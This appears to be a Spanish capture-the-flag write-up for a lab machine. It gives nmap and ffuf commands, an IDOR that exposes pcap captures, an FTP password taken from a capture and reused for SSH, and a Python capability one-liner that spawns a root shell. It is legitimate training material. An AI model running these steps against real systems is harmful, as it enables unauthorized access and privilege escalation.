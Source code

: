 1)¿Cuántos puertos TCP hay abiertos?
	3

2)Después de ejecutar una «Instantánea de seguridad», el navegador es redirigido a una ruta con el formato /[algo]/[id], donde [id] representa el número de id del escaneo. ¿Qué es [algo]?
	data
	La respuesta viene de el link http://10.10.10.245/data/1, en la parte que dice security snapshot
	![[Cap5.png]]


3)¿Puedes acceder a las exploraciones de otros usuarios?
	Si
	Creo que es por que se ven diferentes ip de salida y destino, pero la verdad no estoy seguro

4)¿Cuál es el ID del fichero PCAP que contiene los datos sensibles?
	0
![[Cap6.png]]

5)¿En qué protocolo de capa de aplicación del archivo pcap se pueden encontrar los datos sensibles?
	ftp
	
6)Hemos conseguido la contraseña FTP de Nathan. ¿En qué otro servicio funciona esta contraseña?
	ssh

*La pregunta anterior es la flag*
8)¿Cuál es la ruta completa al binario en esta máquina tiene capacidades especiales de las que se puede abusar para obtener privilegios de root?
	/usr/bin/python3.8

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.245
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.245 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.10.10.245 -oN target
```

![[Cap1.png]]![[Cap2.png]]
![[Cap3.png]]
*TTL:* Maquina linux
*Puertos:*
	`21`FTP
	`22`SSH
	`80`HTPP

-----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.245/
```
![[Cap4.png]]

--------
# [[FFUF]] y [[Gobuster]]

Entramos la la pagina principal
![[Cap11.png]]
con [[Gobuster]] no nos salio ningun directorio interesante, pero entrando en una de las paginas, vemos que esta el directorio /data/ y nos ponemos a enumerarlo con digitos
``ffuf -u http://10.10.10.245/data/FUZZ -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -t 64 -fs 208`` Usamos el parametro `-fs 208` ya que habia muchos falsos positivos

![[Cap7.png]]
Nos da la captura de la 0 a la 5
![[Cap12.png]]
Descargamos la 0 y la abrimos con [[wireshark]], podemos ver que informacion sensible

En ftp sacamos el usuario y contraseña nathan:Buck3tH4TF0RM3!

``ftp nathan@10.10.10.245 -p 21``
![[Cap8.png]]

--------
# Conexion por [[ssh]]

Vemos si reutiliza credenciales en [[ssh]] que en habiamos visto que estaba activo el servicio por el puerto 21

``ssh nathan@10.10.10.245 -p 22``
![[Cap9.png]]

---
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios [[getcap]]

Usamos el comando `getcap -r / 2>/dev/null` y vemos que tiene una capability en python

![[Cap14.png]]

Vamos a vamos a [gtfobinds](https://gtfobins.github.io/gtfobins/python/#capabilities), nos da este oneliner
![[Cap13.png]]
Lo adaptamos a nuestra maquina, lo ejecutamos y podemos visualizar las flags ``python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``

![[Cap15.png]]
